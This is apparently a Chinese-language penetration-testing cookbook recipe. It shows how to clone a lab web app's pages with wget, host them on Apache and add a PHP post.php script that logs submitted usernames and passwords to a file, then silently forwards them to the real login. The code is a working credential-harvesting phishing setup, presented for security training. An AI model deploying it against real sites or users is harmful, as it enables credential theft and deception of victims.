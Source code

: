 ## 9.2 使用之前保存的页面来创建钓鱼网站

在之前的秘籍中，我们使用了 SET 来复制网站并使用它来收集密码。哟时候，仅仅复制登录页面不会对高级用户生效，在正确输入密码并再次重定向登录页面时，它们可能会产生怀疑，或者会试着浏览页面中的其它链接。我们这样就会失去它们，因为它们会离开我们的页面而来到原始站点。

这个秘籍中，我们会使用我们在第三章“为 Wget 离线分析下载页面”秘籍中复制的页面，来构建更加详细的钓鱼网站，因为它几乎含有所有导航，并且会在捕获证书之后登陆原始站点。

### 准备

我们需要保存 Web 页面，遵循第三章“为 Wget 离线分析下载页面”秘籍。简单来说，可以通过下列命令来完成：

```
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/ 
```

之后，离线页面会储存在`bodgeit_offline`目录中。

### 操作步骤

1.  第一步是将下载的站点复制到 Kali 中 APache 的根目录。在 root 终端中：

    ```
    cp -r bodgeit_offline/192.168.56.102/bodgeit /var/www/html/ 
    ```

2.  之后我们启动 Apache 服务：

    ```
    service apache2 start 
    ```

3.  下面，我们需要更新我们的登录页面，使它重定向我们收集密码的脚本。打开`bodgeit`目录（`/ var/www/html/bodgeit`）中的`login.jsp`文件，并寻找下面的代码：

    ```
    <h3>Login</h3> 
    Please enter your credentials: <br/><br/> 
    <form method="POST">
    ```

4.  现在，在表单标签中添加`action`来调用`post.php`：

    ```
    <form method="POST" action="post.php">
    ```

5.  我们需要在`login.jsp`的相同目录下创建该文件，创建`post.php`，带有下列代码：

    ```
    <?php  
    $file = 'passwords_C00kb00k.txt';  
    file_put_contents($file, print_r($_POST, true), FILE_APPEND);  
    $username=$_POST["username"];  
    $password=$_POST["password"];  
    $submit="Login"; ?> 
    <body onload="frm1.submit.click()"> 
    <form name="frm1" id="frm1" method="POST" 
    action="http://192.168.56.102/bodgeit/login.jsp"> 
    <input type="hidden" value="<?php echo $username;?>" name ="username"> 
    <input type="hidden" value="<?php echo $password;?>" name ="password"> 
    <input type="submit" value="<?php echo $submit;?>" name ="submit"> 
    </form> 
    </body>
    ```
